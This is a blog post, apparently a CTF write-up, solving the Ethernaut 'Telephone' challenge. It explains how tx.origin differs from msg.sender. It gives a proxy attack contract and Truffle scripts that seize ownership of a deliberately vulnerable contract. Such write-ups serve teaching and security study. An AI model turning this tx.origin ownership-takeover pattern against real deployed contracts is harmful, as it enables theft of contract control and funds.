 Title: Solving Zeppelin's Ethernaut CTF - Telephone
Date: 2018-06-10 18:20
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-telephone
Summary: Fifth post of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. We claim ownership of the Telephone contract by first understanding the difference between the sender and origin of Ethereum transactions.

## Introduction
The Telephone contract challenge is far from being the hardest or most complex of all, but through solving it we will dig a bit deeper in how Ethereum works internally. Not so much to say here, so just go and [read the challenge](https://ethernaut.zeppelin.solutions/level/0x6b7b4a5260b67c1ee9196a42dd1ed8633231ba0a){:target="_blank",:rel="noopener"}.

## The Telephone Contract
Our objective is to claim ownership of the contract. According the the constructor's code, the deployer is the first owner.
~~~solidity
function Telephone() public {
    owner = msg.sender;
}
~~~

Anybody with intentions to become the new owner must call the public `changeOwner` function passing the address as an argument:
~~~solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
}
~~~
Doesn't seem so difficult, except for that `if` clause. Let's see what it means.

Among the available global variables in Solidity, there're two which can be a bit confusing at first: `msg.sender` and `tx.origin`. Up until now, we've only seen and used `msg.sender` to reference the caller's address. However, while [solving the Coinflip challenge](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-coinflip), we learned that public functions can be called both from 'outside' the blockchain (i.e. from an externally owned account) or 'inside' the blockchain (from another contract's code).
Moreover, we stated that while all **transactions** are originated by an EOA, contracts can send messages to each other, those messages being all included in the same transaction which triggered the whole call chain.

As a result, in Solidity there are two different global variables to reference each of those cases. On the one hand, `msg.sender` references the actual caller (the last caller in the call chain) of the function. It could be an EOA or a contract address.

On the other hand, `tx.origin` indicates the address of the EOA that gave origin to the whole transaction.

For instance, imagine that the externally owned account 'A' calls a function in contract 'B' which calls a function in contract 'C'. This super complex call chain results in: A -> B -> C. In B's code, `tx.origin` and `msg.sender` would be the same: the address of A. Conversely, in C's code, `tx.origin` and `msg.sender` would be different: while `msg.sender` would be B's address, `tx.origin` would equal A's address.

All of this means that, to become the owner of Telephone, an attacker cannot simply call the `changeOwner` public function from his/her EOA. Were he/she to do that, `tx.origin` would always equal `msg.sender` (your address), thus the `if` clause would never be true.

Instead, the solution relies on deploying a new 'proxy' contract (just like we did in the Coinflip challenge) controlled by the attacker (us), which will be in charge of calling the `changeOwner` function of `Telephone` contract and become its owner on the attacker's behalf.

## The exploit

Let's first write the `TelephoneAttack` contract code. Note its similarities with the [`CoinflipAttack` contract](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/CoinFlipAttack.sol){:rel="noopener"} we saw in the previous post. The same observations we highlighted in that one apply here as well.

~~~solidity
pragma solidity ^0.4.18;

import "./Telephone.sol";

contract TelephoneAttack {
    Telephone public victimContract;

    function setVictim(address _addr) public {
        victimContract = Telephone(_addr);
    }

    function changeOwner(address _owner) public {
        victimContract.changeOwner(_owner);
    }
}
~~~

Once you added `Telephone.sol` and `TelephoneAttack.sol` to the `contracts` folder of your project, write the necessary code (see below) to deploy both of them to the blockchain in `migrations/2_deploy_contracts.js`. Then run `truffle migrate`.

~~~javascript
let Telephone = artifacts.require('./Telephone.sol')
let TelephoneAttack = artifacts.require('./TelephoneAttack.sol')
module.exports = deployer => {
    deployer.deploy(Telephone)
    deployer.deploy(TelephoneAttack)
}
~~~

Inside your `exploits` folder, create a file called `telephone.exploit.js`. As always, follow the same code structure used for the previous exploits:

~~~javascript
const TelephoneContract = artifacts.require('Telephone')
const TelephoneAttackContract = artifacts.require('TelephoneAttack')
const assert = require('assert')

async function execute(callback) {
    let victimContract = await TelephoneContract.deployed()
    let proxyContract = await TelephoneAttackContract.deployed()

    // Set the victim's address
    proxyContract.setVictim(victimContract.address)
    
    // Get the attacker account
    let attackerAccount = web3.eth.accounts[1]
    console.log(`Attacker account is ${attackerAccount}`)

    // Check original owner
    let contractOwner = await victimContract.owner.call()
    console.log(`Original owner ${contractOwner}`)

    callback()
}
module.exports = execute
~~~

Changing the owner is just a matter of calling our malicious contract's `changeOwner` function from our attacker account. Then verify that the ownership was succesfuly changed:
~~~javascript
// Change owner
await proxyContract.changeOwner(attackerAccount, {
    from: attackerAccount
})

// Check final owner
contractOwner = await victimContract.owner.call()
assert.equal(contractOwner, attackerAccount)
console.log(`New owner ${contractOwner}`)
~~~

Now run `truffle exec exploits/telephone.exploit.js` and that's it! Challenge passed.

See the [full code of the exploit](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/telephone.exploit.js) and the [attacker contract code](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/TelephoneAttack.sol).

Thanks for reading!. For the next post, be ready to **steal some ethers** from a basic token contract and pass the [Token challenge](https://ethernaut.zeppelin.solutions/level/0x6545df87f57d21cb096a0bfcc53a70464d062512){:rel="noopener"}.
